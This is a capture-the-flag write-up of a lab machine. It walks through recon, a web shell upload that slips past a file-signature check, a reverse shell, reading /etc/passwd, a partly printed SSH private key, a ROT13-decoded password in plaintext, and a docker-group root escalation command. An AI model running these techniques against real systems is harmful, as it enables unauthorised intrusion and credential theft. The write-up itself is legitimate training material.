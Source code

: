 ## BattleX CTF: another_machine 
#### Category: Boot2Root
#### Score: 30
#### Number of Solves: 4 

### TL; DR

Exploit upload functionality of a webserver to gain initial access, escalating privilege from low privileged user to a more privileged user through exposed ssh credentials and to root using docker group.

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 17:10 WAT
Nmap scan report for 10.10.90.12
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Death Note - Add Names
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.66 seconds
```

We have two services running. One SSH on port 22 and Apache web server on port 80. The versions of the services doesn't look like one with a public available exploit to hasten my progress.

### Exploring

![Port 80](https://i.imgur.com/IiUJoIt.png)

_Apache on port 80_

On uploading a JPG file, nothing happens, it seems it uploaded. But to what location?

I used `gobuster` to do a light directory bruteforce, using a common.txt wordlist from SecLists.

![Imgur](https://i.imgur.com/bTuZUNJ.png)

_Gobuster result_

/notes was discovered and on checking, it contained the uploaded file in it. Nice, I could exploit this upload to gain initial access to the base system. I tried uploading a php shell and was greeted by this. 

![Imgur](https://i.imgur.com/drkMEXr.png)

This _thing_ is validating the file signature and less likely the file extension (.php). To bypass this upload restriction. I copied a jpg file magic and pasted in the request, using BurpSuite Repeater.

![Imgur](https://i.imgur.com/RZfkdLr.png)

Boom, my shell uploaded.

![Imgur](https://i.imgur.com/cSUR2FR.png)

### Gaining access 

I opened my equivalent netcat listener and I have shell.

![Imgur](https://i.imgur.com/z6dd8hT.png)

```
www-data@deathnote:/opt/containerd$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[snip]
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[snip]
ryuk:x:1000:1000:ryuk:/home/ryuk:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
light:x:1001:1001:,,,:/home/light:/bin/bash
```

### Privilege escalation

We have two users apart from root. Next, I uploaded linpeas to quicken my system enumeration proceedure. Linpeas detected a ssh private key in /opt/containerd/ directory which should belong to either of the users or probably root. 

```
www-data@deathnote:/opt/containerd$ ls

bin
id_rsa
lib
www-data@deathnote:/opt/containerd$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzndKq1pSh74SM3nfOe2Wk+lcoLF6sIQMwL4wo7wTuRALVS8O
wDiejhpCJuZ72EAujPmsxJrDN5eD9h3Gvaf56gPcSBEomVoU2oWBVaISTuKjOvXK
[snip]
9cN3D9ruIqD060p8gTfKZAuvMKoTP3ChHAxdXVDcjl6ChTPCKRigQf0=
-----END RSA PRIVATE KEY-----
```
It turned out to be the ssh key for ryuk, now, I will use a more standard and stable shell access.

![Imgur](https://i.imgur.com/r0AGEGy.png)

_user.txt and I can't cat it??_

```
ryuk@deathnote:~$ ls -lah
total 44K
drwx---r-x 6 ryuk  ryuk 4.0K Jun 16 01:23 .
drwxr-xr-x 4 root  root 4.0K Jun 15 01:17 ..
lrwxrwxrwx 1 ryuk  ryuk    9 Jun 16 01:08 .bash_history -> /dev/null
-rw-r--r-- 1 ryuk  ryuk  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ryuk  ryuk 3.7K Apr  4  2018 .bashrc
drwx------ 2 ryuk  ryuk 4.0K Jun 14 20:52 .cache
drwx------ 3 ryuk  ryuk 4.0K Jun 14 20:52 .gnupg
drwxrwxr-x 3 ryuk  ryuk 4.0K Jun 15 00:49 .local
-rw-r--r-- 1 ryuk  ryuk  807 Apr  4  2018 .profile
-rwx------ 1 ryuk  ryuk   24 Jun 15 01:16 rotedcreds
drwx------ 2 ryuk  ryuk 4.0K Jun 16 01:28 .ssh
-rw-r--r-- 1 ryuk  ryuk    0 Jun 14 20:55 .sudo_as_admin_successful
-rwxr----- 1 light root   33 Jun 15 01:21 user.txt
```

user.txt is owed by user light and root and there's a suspicious `rotedcreds` file which contained a ciphered text. I will proceed to use cyberchef or any tool to anaylse the text and get something useful from it.

![Imgur](https://i.imgur.com/VmKtjp7.png)

_ROT13 with amount 13_

Credential for light, gotten.

`light:0lightyagami23433`

```
ryuk@deathnote:~$ su light
Password:
light@deathnote:/home/ryuk$ cat user.txt
5eb63bbbe01eeed093cb22bb8f5acdc3
light@deathnote:/home/ryuk$
```

User flag gotten!!

User flag: `5eb63bbbe01eeed093cb22bb8f5acdc3` 

### Privilege escalation to root

![Imgur](https://i.imgur.com/NIr8bZQ.png)

_Manual enumeration_

Light may not use sudo but Light is in the docker group. Meaning, Light can run docker as root. I can easily escalate to root with this discovery. By running this command, `docker run -v /:/mnt --rm -it alpine chroot /mnt bash` (source: gtfobins), I will be spawned into a root shell.

![Imgur](https://i.imgur.com/e0sZ5EU.png)

```
root@729fd2f76468:~# ls -lah
total 40K
drwx------  6 root root 4.0K Jun 16 02:12 .
drwxr-xr-x 24 root root 4.0K Jun 14 20:01 ..
lrwxrwxrwx  1 root root    9 Jun 15 04:14 .bash_history -> /dev/null
[snip]
drwx------  2 root root 4.0K Jun 14 20:51 .ssh
-r--r--r--  1 root root  353 Jun 15 01:37 deathnote
-rw-------  1 root root  123 Jun 16 02:12 root.txt
root@729fd2f76468:~# cat root.txt
here is your flag but please remove the deathnote before leaving h4ckerm4n

1f3870be274f6c49b3e31a0c6728957f
root@729fd2f76468:~#
```
Root flag gotten.

Root flag:`1f3870be274f6c49b3e31a0c6728957f`

### Extras

There's a note saying I should remove the deathnote before leaving, its clearly having read and no write permissions. 

```
root@729fd2f76468:~# chmod 777 deathnote
chmod: changing permissions of 'deathnote': Operation not permitted
root@729fd2f76468:~# chattr -i deathnote
Hacksparo was too smart -i deathnote
```
_Tried to use chattr_

I will figure out a way later. Onto the next.

### References

1. [gtfobins](https://gtfobins.github.io/gtfobins/docker/)